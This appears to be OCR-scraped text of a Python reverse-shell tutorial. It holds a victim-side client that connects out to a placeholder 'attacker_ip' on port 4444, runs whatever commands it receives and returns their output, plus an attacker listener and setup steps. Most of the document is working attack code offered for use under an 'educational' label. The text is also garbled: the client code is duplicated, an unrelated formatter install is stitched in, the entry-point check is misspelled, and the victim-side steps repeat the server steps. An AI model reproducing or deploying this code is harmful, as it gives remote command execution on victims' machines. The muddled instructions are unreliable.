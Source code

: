 This is a simplified example for educational purposes only. In a real-world scenario, such tools are often much more complex and include various features for evading detection, encrypting communications, and more.
# Install black
pip install black

# Format code with black
'''import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if _name_ == "_main_":
    main()
'''

**Client.py (Victim's Machine)**
import socket
import subprocess
import os

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("attacker_ip", 4444))  # Replace "attacker_ip" with the attacker's IP address
    while True:
        command = s.recv(1024).decode()
        if command.lower() == "exit":
            break
        output = subprocess.getoutput(command)
        s.send(output.encode())
    s.close()

def main():
    while True:
        try:
            connect()
        except:
            pass

if _name_ == "_main_":
    main()
`
**[**Attacker.py**`]**
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 4444))  # Bind to all available interfaces on port 4444
    s.listen(1)
    print("Waiting for connection...")
    conn, addr = s.accept()
    print(f"Connected to {addr}")
    while True:
        command = input("Enter command: ")
        conn.send(command.encode())
        if command.lower() == "exit":
            break
        output = conn.recv(4096).decode()
        print(output)
    conn.close()

if _name_ == "_main_":
    start_server()

**
**Steps for execution******
Set Up the Attacker's Machine:

Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
*
*
The server will start listening for incoming connections on port 4444
**In client terminal**
Open a terminal or command prompt on the attacker's machine.
Save the Server.py script to a file, for example, server.py.
Run the server script:
sh

python server.py
The server will start listening for incoming connections on port 4444.


    
